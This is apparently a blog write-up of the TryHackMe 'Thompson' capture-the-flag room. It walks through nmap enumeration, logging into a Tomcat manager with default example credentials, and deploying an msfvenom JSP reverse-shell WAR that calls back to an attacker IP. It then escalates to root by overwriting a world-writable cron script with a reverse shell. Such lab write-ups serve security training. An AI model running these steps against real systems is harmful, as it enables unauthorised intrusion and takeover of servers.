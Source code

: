 ```yaml
---
layout: post
title: PenLog - &quot;Thompson&quot; by TryHackMe
categories: [TryHackMe, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [TryHackMe](https://www.tryhackme.com/)\
**Difficulty:** Easy\
**Link:** [Thompson](https://tryhackme.com/room/bsidesgtthompson)

## Enumeration

Run `nmap` default port scan on target with TCP connect/version/script options:

```bash
$ nmap -vv -Pn -sT -sV -sC -r -n 10.10.58.198
```

This results in:

![nmap1](/images/posts/penlog_thompson_by_tryhackme/nmap1.png)

Open browser and navigate to target's open http port 8080; confirm Tomcat version is v8.5.5 as per the `nmap` scan result:

![tomcat](/images/posts/penlog_thompson_by_tryhackme/tomcat.png)

Navigate to _/manager_ by clicking the "Manager App" button; click "Cancel" when prompted for a username and password.

Note the rendered error response mentions example credentials:
* **Username:** tomcat
* **Password:** :s3cret

![tomcat-error](/images/posts/penlog_thompson_by_tryhackme/tomcat_error.png)

Reattempt to authenticate to _/manager_ with the above mentioned example credentials - **success**.

## User Shell

Generate a JSP payload in _.war_ format using `msfvenom`:

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.4.9.232 LPORT=4444 -f war > shell.war
```
_(**Note**: You can list available payloads with `msfvenom --list payloads`; I use `grep` to filter the payloads on a needs basis.)_

Deploy the generated _shell.war_:

![tomcat-deploy](/images/posts/penlog_thompson_by_tryhackme/tomcat_deploy.png)

![tomcat-deployed](/images/posts/penlog_thompson_by_tryhackme/tomcat_deployed.png)

Start an `nc` lister on the port specified as _LPORT_ to the `msfvenom` command:

```bash
$ nc -vnlp 4444
```

Click the _/shell_ link in the deployed applications list (as shown above) -- the Tomcat server will execute the deployed JSP reverse shell code generated using `msfvenom` -- to establish a low-privilege _user_ shell.

Upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

Get the user _flag.txt_:

![nmap1](/images/posts/penlog_thompson_by_tryhackme/user_flag.png)

Notice the _id.sh_ file in the user home directory _/home/jack_; this script is owned by _jack_ but is world writable - that is, the _tomcat_ user can change the script:

![id-script-perms](/images/posts/penlog_thompson_by_tryhackme/id_script_perms.png)

This script, when executed, writes out the _uid_ of the executing user to the file _test.txt_ in the same home directory:

![id-script-out](/images/posts/penlog_thompson_by_tryhackme/id_script_out.png)

Notice the current _test.txt_ reads `id` output for _root_; indicating the last user to execute the _id.sh_ script was _root_.

The system _/etc/crontab_ shows evidence of the _id.sh_ script running every minute as user _root_:

![crontab](/images/posts/penlog_thompson_by_tryhackme/crontab.png)

## Root Shell

Replace the _id.sh_ script with a bash reverse shell connection to attacking machine:

![id-script-new](/images/posts/penlog_thompson_by_tryhackme/id_script_new.png)

Start `nc` listener on the attacking machine, specifying expected reverse shell port (4446 in this case):

```bash
$ nc -vnlp 4446
```

Wait for `cron` to execute _id.sh_ as root, establishing a reverse shell as _root_; get the root _flag.txt_:

![root-shell](/images/posts/penlog_thompson_by_tryhackme/root_shell.png)
